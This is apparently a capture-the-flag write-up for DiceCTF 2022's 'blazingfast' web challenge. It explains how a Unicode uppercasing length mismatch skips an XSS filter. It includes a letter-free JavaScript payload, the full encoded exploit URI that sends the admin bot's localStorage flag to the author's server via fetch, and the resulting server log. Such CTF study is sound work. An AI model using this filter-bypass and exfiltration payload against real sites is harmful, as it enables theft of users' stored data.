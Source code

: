 +++
Title = "DiceCTF 2022: blazingfast"
description = "Writeup for blazingfast challenge in DiceCTF 2022"
aliases = [ "/p/dctf22-blazingfast" ]
+++

One of the challenges in [DiceCTF 2022](https://ctf.dicega.ng/) was [`web/blazingfast`](https://blazingfast.mc.ax/). It converts text you write InTo tExT LiKe tHiS. The main logic is implemented in WebAssembly, but [the C source code](https://static.dicega.ng/uploads/209c5168fc160763f28a23f23280f921c7e544fb87323726e48584b89d774825/blazingfast.c) is provided[^re]. If we try to input an XSS payload, it detects this and the output is `No XSS for you!`.

[^re]: Although I didn't realize that at first, and spent a considerable amount of time reverse engineering the WASM module.

There is an admin bot that will visit a URI you specify with a flag in `localStorage`, and we can use the `demo` URI parameter to make the admin mock text of our choosing.

Capitalization is one of those things that seems simple if you approach it from an ASCII-centric perspective, but capitalization works in weird ways in some languages. In German, "ß" in lowercase is "SS" in uppercase. Some precomposed ligatures have similar behavior: "ﬃ" (that's a single letter) uppercases to "FFI" (that's three letters). Let's see how this challenge handles those characters: `ßßßßß` gets mocked incorrectly as `SsSsSSSSSS`. The last half of the input didn't get mocked!

The unmocked second half is due to a mismatch length handling in the WASM glue code. It starts by sending the length of the string to the WASM module. Next, it converts the string to all uppercase, since the WASM module works by lowercasing the appropriate letters &mdash; it assumes the input is already all uppercase. This means that the rest of the string isn't mocked. This is great for us, since the loop that mocks the string also has an XSS check: `buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"'`. This *would* be an effective check if it were run against every character. But since it isn't, we can stick an XSS payload at the end.

There's one problem with our XSS payload though: it gets converted to all uppercase. We need to write an XSS payload that doesn't use any lowercase letters. I later learned that you could do this pretty easily with escape sequences, but I did this a more convoluted way. It is possible to execute arbitrary JavaScript payloads using only symbols. [JSFuck](http://www.jsfuck.com/) can transpile any JavaScript to JavaScript with just six symbols. Unfortunately, the generated JS is often very long, and there is a length limit of 1000 characters in the WASM glue code. As such, my solution is based on what JSFuck does, but takes advantage of more characters.

Here, we create a bunch of single character variables using things createable without letters. We can use `''+!0` to get `"false"`, `''+!1` for `"true"`, `[][0]+''`, for `"undefined"`, then extract characters by indexing into those strings. We can use those characters to access parts of objects to get even more strings available to index from. Note that this relies on native functions being stringified in specific ways, so this is Chromium-specific.

```js
UN=[][0]+'';FL=(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]];F=([][FL]+'');
C=F[3];O=F[27];N=UN[1];S=(''+!1)[3];T=F[21];R=(!0+'')[1];U=UN[0];E=F[29];L=(!1+'')[2];A=(!1+'')[1];
CON=C+O+N+S+T+R+U+C+T+O+R;
G=(''+''[CON])[14];F=F[0];M=((0)[CON]+'')[11];H=(+(101))[T+O+''[CON][N+A+M+E]](21)[1];
```

Next, we need to access two globals: `localStorage` which has the flag, and `fetch` to send data to our server. We can't directly index on `window` (since that's spelt with lowercase letters). We can get the `Function` global by getting the `constructor` property on a function we create. Then we can pass a string to `Function` to create a function with the contents of that string (similar to `eval`), then call that new function. We can access globals that way:

```js
FN=(()=>{})[CON];
[LS,FE]=FN(R+E+T+U+R+N+' ['+L+O+C+A+L+'S'+T+O+R+A+G+E+','+F+E+T+C+H+']')();
```

Next, we extract the flag from `localStorage` and send it to our server. Conveniently the hostname and protocol of URLs are case-insensitive.

```js
FE('HTTPS://BOX.SMITOP.COM/'+LS[F+L+A+G]);
```

Now we've got our JavaScript, let's format it into an exploit URI. We URL-encode the script and put it into an image tag after 500 ßs: `https://blazingfast.mc.ax/?demo=[500 ß]<IMG SRC="" ONERROR="[script]">`. This gives us our final URI to send to the admin bot:

```
https://blazingfast.mc.ax/?demo=%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%C3%9F%3CIMG%20SRC=%22%22%20ONERROR=%22UN%3D%5B%5D%5B0%5D%2B%27%27%3BFL%3D(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%3BF%3D(%5B%5D%5BFL%5D%2B%27%27)%3BC%3DF%5B3%5D%3BO%3DF%5B27%5D%3BN%3DUN%5B1%5D%3BS%3D(%27%27%2B!1)%5B3%5D%3BT%3DF%5B21%5D%3BR%3D(!0%2B%27%27)%5B1%5D%3BU%3DUN%5B0%5D%3BE%3DF%5B29%5D%3BL%3D(!1%2B%27%27)%5B2%5D%3BA%3D(!1%2B%27%27)%5B1%5D%3BCON%3DC%2BO%2BN%2BS%2BT%2BR%2BU%2BC%2BT%2BO%2BR%3BG%3D(%27%27%2B%27%27%5BCON%5D)%5B14%5D%3BF%3DF%5B0%5D%3BM%3D((0)%5BCON%5D%2B%27%27)%5B11%5D%3BH%3D(%2B(101))%5BT%2BO%2B%27%27%5BCON%5D%5BN%2BA%2BM%2BE%5D%5D(21)%5B1%5D%3BFN%3D(()%3D%3E%7B%7D)%5BCON%5D%3B%5BLS%2CFE%5D%3DFN(R%2BE%2BT%2BU%2BR%2BN%2B%27%20%5B%27%2BL%2BO%2BC%2BA%2BL%2B%27S%27%2BT%2BO%2BR%2BA%2BG%2BE%2B%27%2C%27%2BF%2BE%2BT%2BC%2BH%2B%27%5D%27)()%3BFE(%27HTTPS%3A%2F%2FBOX.SMITOP.COM%2F%27%2BLS%5BF%2BL%2BA%2BG%5D)%3B%22%3E
```

I then watched the request log on my server to get the flag:

```
2022/02/06 11:20:55 [error] 7483#7483: *33969 open() "/home/user-data/www/default/dice{1_dont_know_how_to_write_wasm_pwn_s0rry}" failed (2: No such file or directory), client: 34.139.106.105, server: box.smitop.com, request: "GET /dice%7B1_dont_know_how_to_write_wasm_pwn_s0rry%7D HTTP/2.0", host: "box.smitop.com", referrer: "https://blazingfast.mc.ax/"</code>
```
